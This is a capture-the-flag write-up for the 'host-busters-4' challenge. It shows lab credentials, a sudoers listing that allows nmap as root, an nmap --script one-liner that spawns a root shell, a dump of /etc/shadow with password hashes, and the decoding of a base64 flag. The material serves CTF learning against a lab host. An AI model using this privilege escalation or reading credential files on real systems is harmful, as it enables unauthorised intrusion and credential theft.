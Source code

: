 # host-busters-4

See if you can crack gh0st404’s password. 
Based on Ghost Town conversations, we suspect the password is found in common wordlists.

Submit the flag as flag{password}.

vim@gh0st404.deadface.io

Password: letmevim

## Solution

```
sudo -l -l 
Matching Defaults entries for gh0st404 on cefa9f4da2ac:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User gh0st404 may run the following commands on cefa9f4da2ac:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
	/usr/bin/nmap

Sudoers entry:
    RunAsUsers: ALL
    RunAsGroups: ALL
    Options: !authenticate
    Commands:
	/etc/init.d/ssh start

```

```sh
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo -u root nmap --script=$TF

# copied proposal.pdf out of spookyboi and changed perms 777
cat /etc/shadow
# mort1cia:$6$53820c565eca77b2$WVK13lCDwtn1/DjcyCktOFkZBb8GX/s0N.lHv8nqRTdIcUFaN6UR1t2iadYXU7bR0DD8P3.JzNcW.ne5vgDfO.:19568:0:99999:7:::
# spookyboi:$6$238114ed7adfd724$8mKfFn9ywaU8SV0iQxgi/b8PRA.17ZCU77A9uwQzag/pTYMRbdKVADKoB7EWbU539xg.vy1ZP21Sy.B1WIKvA0:19568:0:99999:7:::
# vim:$6$d782b019e05a0a3f$0BP3fPEfLmd7P2WPrXlghsdLH.goxQwvxAyvkDbSYuqidXWhlgtT5f.HXpM1cx8KdgUyfOzDZw2G9O5CoucVL0:19568:0:99999:7:::
# gh0st404:$6$5d63619132db26f0$4FF5/xxtU1.OPzv2OdnWmB0mG5kqyMGUCAW8crE5ZqS24v6i1sM806eh8SigsZLxeJs/EtK0RJuB.eD.wTjLp/:19568:0:99999:7:::
```

```sh
tail -n 1 proposal.pdf 
# SG9zdCBCdXN0ZXJzIDQ6IGZsYWd7QWJ1czNfb0ZfcDB3M1J9Cg==
# Host Busters 4: flag{Abus3_oF_p0w3R}
```
